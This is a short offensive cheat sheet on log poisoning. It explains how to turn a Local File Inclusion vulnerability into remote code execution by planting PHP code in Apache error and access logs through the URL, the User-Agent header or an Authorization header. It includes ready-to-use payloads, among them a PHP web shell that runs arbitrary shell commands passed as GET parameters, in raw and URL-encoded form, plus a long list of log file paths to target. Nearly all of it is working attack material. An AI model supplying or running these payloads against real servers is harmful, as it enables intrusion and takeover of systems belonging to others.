Sometimes you have a Local File Inclusion vulnerability, but no means of uploading a file.

In this case, you can still sometimes "write" code to the server via logs!

There are three potential targets:

Apache Error Log
- Generate Apache error, opening PHP tags with url encoded characters
http://localhost:8888/ppppppp%3C%3Fphpinfo()%3F%3E

Apache Request Log
- Generate successful apache request, with your PHP code embedded in your user agent (use Firefox plugin User Agent Switcher, or developer settings in Google chrome)
- Generate successul apache request, with your PHP code embedded in Basic Authentication (base64 encoded), applying this header to http request...
Authorization: Basic PD9QSFAgJHM9JF9HRVQ7QGNoZGlyKCRzWyd4J10pO2VjaG9Ac3lzdGVtKCRzWyd5J10pPz46

Now execute the LFI!
- http://localhost:8888/?page=/Applications/MAMP/logs/apache_error_log
- http://localhost:8888/?page=/Applications/MAMP/logs/apache_access_log


--Payloads--

1) Shows php debug info, quick method to see if success.
<?phpinfo()?>
%3C%3Fphpinfo()%3F%3E

2) Allows execution, $_GET['x'] = a directory, $_GET['y'] = a shell command.
<?PHP $s=$_GET;@chdir($s['x']);echo@system($s['y'])?>
%3C%3FPHP%20%24s%3D%24_GET%3B%40chdir(%24s%5B'x'%5D)%3Becho%40system(%24s%5B'y'%5D)%3F%3E


--Log locations--
/etc/httpd/logs/access.log
/etc/httpd/logs/access_log
/etc/httpd/logs/error.log
/etc/httpd/logs/error_log
/opt/lampp/logs/access_log
/opt/lampp/logs/error_log
/usr/local/apache/log
/usr/local/apache/logs
/usr/local/apache/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/error.log
/usr/local/apache/logs/error_log
/usr/local/etc/httpd/logs/access_log
/usr/local/etc/httpd/logs/error_log
/usr/local/www/logs/thttpd_log
/var/apache/logs/access_log
/var/apache/logs/error_log
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache-ssl/access.log
/var/log/apache-ssl/error.log
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/httpsd/ssl.access_log
/var/log/httpsd/ssl_log
/var/log/thttpd_log
/var/www/log/access_log
/var/www/log/error_log
/var/www/logs/access.log
/var/www/logs/access_log
/var/www/logs/error.log
/var/www/logs/error_log
C:\apache\logs\access.log
C:\apache\logs\error.log
C:\Program Files\Apache Group\Apache\logs\access.log
C:\Program Files\Apache Group\Apache\logs\error.log
C:\program files\wamp\apache2\logs
C:\wamp\apache2\logs
C:\wamp\logs
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
/Applications/MAMP/logs/php_error.log
/Applications/MAMP/logs/apache_error_log